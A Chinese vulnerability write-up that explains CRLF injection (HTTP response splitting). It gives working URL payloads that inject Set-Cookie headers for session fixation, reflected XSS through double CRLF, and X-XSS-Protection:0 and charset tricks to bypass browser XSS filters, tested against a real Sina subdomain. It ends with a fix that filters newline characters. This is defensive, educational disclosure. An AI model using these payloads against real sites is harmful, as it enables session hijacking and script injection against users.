 0x00 背景
=
CRLF Injection很少遇见，这次被我逮住了。我看zone中（http://zone.wooyun.org/content/13323）还有一些同学对于这个漏洞不甚了解，甚至分不清它与CSRF，我详细说一下吧。

CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

HRS是比XSS危害更大的安全问题，具体是为什么，我们往下看。

对于HRS最简单的利用方式是注入两个\r\n，之后在写入XSS代码，来构造一个xss。

0x01 实例
=
举个例子，一般网站会在HTTP头中用Location: http://baidu.com这种方式来进行302跳转，所以我们能控制的内容就是Location:后面的XXX某个网址。

所以一个正常的302跳转包是这样：


HTTP/1.1 302 Moved Temporarily 

Date: Fri, 27 Jun 2014 17:52:17 GMT 

Content-Type: text/html 

Content-Length: 154 

Connection: close 

Location: http://www.sina.com.cn

但如果我们输入的是

http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun

注入了一个换行，此时的返回包就会变成这样： 

HTTP/1.1 302 Moved Temporarily 

Date: Fri, 27 Jun 2014 17:52:17 GMT 

Content-Type: text/html 

Content-Length: 154 

Connection: close 

Location: http://www.sina.com.cn 

Set-cookie: JSPSESSID=wooyun

这个时候这样我们就给访问者设置了一个SESSION，造成一个“会话固定漏洞”。

当然，HRS并不仅限于会话固定，通过注入两个CRLF就能造成一个无视浏览器Filter的反射型XSS。

比如一个网站接受url参数http://test.sina.com.cn/?url=xxx，xxx放在Location后面作为一个跳转。如果我们输入的是

http://test.sina.com.cn/?url=%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>

我们的返回包就会变成这样：

HTTP/1.1 302 Moved Temporarily 

Date: Fri, 27 Jun 2014 17:52:17 GMT 

Content-Type: text/html 

Content-Length: 154 

Connection: close 

Location:

<img src=1 onerror=alert(/xss/)>

之前说了浏览器会根据第一个CRLF把HTTP包分成头和体，然后将体显示出来。于是我们这里这个标签就会显示出来，造成一个XSS。

为什么说是无视浏览器filter的，这里涉及到另一个问题。

浏览器的Filter是浏览器应对一些反射型XSS做的保护策略，当url中含有XSS相关特征的时候就会过滤掉不显示在页面中，所以不能触发XSS。

怎样才能关掉filter？一般来说用户这边是不行的，只有数据包中http头含有X-XSS-Protection并且值为0的时候，浏览器才不会开启filter。

说到这里应该就很清楚了，HRS不正是注入HTTP头的一个漏洞吗，我们可以将X-XSS-Protection:0注入到数据包中，再用两个CRLF来注入XSS代码，这样就成功地绕过了浏览器filter，并且执行我们的反射型XSS。

所以说HRS的危害大于XSS，因为它能绕过一般XSS所绕不过的filter，并能产生会话固定漏洞。
我们来一个真实案例吧。 新浪某分站含有一个url跳转漏洞，危害并不大，于是我就想到了CRLF Injection，当我测试

http://xxx.sina.com.cn/?url=%0a%0d%0a%0d%3Cimg%20src=1%3E
的时候，发现图片已经输出在页面中了，说明CRLF注入成功了：

![](https://wooyun.js.org/images_result/images/2014062816583715642.jpg)

那么我们试试XSS看看：

![](https://wooyun.js.org/images_result/images/2014062816585822978.jpg)

看控制台，果然被XSS Filter拦截了。

那么我们就注入一个

X-XSS-Protection:0

到数据包中，看看什么效果：

![](https://wooyun.js.org/images_result/images/2014062816593849016.jpg)

@mramydnei 还想到了一个利用字符编码来绕过XSS Filter的方法，当编码是is-2022-kr时浏览器会忽略%0f，这样我们在onerror后面加个%0f就能绕过filter，前提是注入一个

<meta charset=ISO-2022-KR> 

![](https://wooyun.js.org/images_result/images/2014062817010832293.jpg)

![](https://wooyun.js.org/images_result/images/2014062817010832293.jpg)

当然，在Location:这里注入只有webkit内核浏览器才能够利用，其他浏览器可能会跳转、出错。不过对于chrome的使用量来说，危害已经足够了。

0x02 修复
=
如何修复HRS漏洞，当然是过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。

webkit内核的浏览器：

![](https://pic2.zhimg.com/5e3a0e73676165a49d79adc6e4d50583_r.jpg?source=1940ef5c)
